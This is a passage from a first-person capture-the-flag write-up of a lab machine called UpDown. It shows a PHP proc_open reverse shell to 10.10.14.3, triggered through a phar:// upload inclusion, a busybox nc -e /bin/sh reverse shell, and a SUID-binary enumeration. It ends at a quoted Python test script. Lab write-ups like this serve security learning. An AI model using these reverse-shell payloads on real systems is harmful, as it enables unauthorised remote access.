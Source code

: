 It specifies that `proc_open` should be disabled, meaning it is currently enabled, and we can use it for out purposes. Luckily there is a php reverse shell on [revshells.com](http://revshell.scom) which uses it. 

It can be translated into this:

```
<?php
$proc=proc_open("bash -c 'bash -i >&/dev/tcp/10.10.14.3/445 0>&1'",
  array(
    array("pipe","r"),
    array("pipe","w"),
    array("pipe","w")
  ),
  $pipes);
print stream_get_contents($pipes[1]);
?>
```
 I save it as shell.php, zip it as `shell.fart`, and repeat the process with the final URL being: http://dev.siteisup.htb/?page=phar://uploads/c5b0f0dd6af1b0033edf1c5ea2700b34/shell.fart/shell

Personally I immediately run `busybox nc 10.10.14.3 4444 -e /bin/sh &` hoping that will keep it from dying, but it doesn't. Both shells die, apparently for the same reason that the machine keeps crashing. This machine has crashed far more than any other machine I've done. 

```
www-data@updown:/var/www/dev$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/su
/usr/bin/umount
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/at
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/mount
/home/developer/dev/siteisup
```

Interesting, the `/home/developer/dev/siteisup` binary sticks out like a sore thumb, so I `cd` there to read it. We can read all of it, because it is compiled, but in the `/home/developer/dev` directory, there is also a `siteisup_test.py` file which says:
```
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```
